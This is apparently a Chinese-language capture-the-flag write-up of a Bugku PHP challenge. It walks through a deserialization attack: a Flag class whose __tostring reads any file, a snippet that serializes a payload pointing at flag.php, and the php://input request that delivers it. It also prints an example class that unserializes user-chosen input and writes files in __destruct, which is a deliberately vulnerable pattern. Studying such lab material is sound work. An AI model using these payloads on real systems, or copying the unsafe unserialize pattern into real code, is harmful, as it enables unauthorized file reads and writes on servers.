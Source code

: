 hint.php

```php
<?php   
class Flag{//flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("good");
        }  
    }  
}  
?>
```

`index.php`里面要求`$file`参数不能包含`flag`字段，所以文件不能包含`flag.php`，所以`$file=hint.php`，把`hint.php`包含进去，里面存在一个`file_get_concents函数`可以读文件，想到`index.php`里面的`unserialize`函数，所以只需要控制`$this->file`就能读取想要的文件

用这段代码的结果传值给`$password`

```php
<?php
    class Flag{
        public $file='flag.php';
    }
    $a=new Flag();
    $b=serialize($a);
    echo $b;
?>
```

`$password`进行反序列化后`$file`就被赋值为`flag.php`，然后`file_get_contents`就得到了`flag`

```php
?txt=php://input&file=hint.php&password=反序列化内容
POST: welcome to the bugkuctf
```

例题:

```php
<?php
    class foo{
        public $file = "2.txt";
        public $data = "test";
        function __destruct(){
            file_put_contents(dirname(__FILE__).'/'.$this->file,$this->data);
        }
    }
    $file_name = $_GET['filename'];
    print "You have readfile ".$file_name;
    unserialize(file_get_contents($file_name));
?>
```
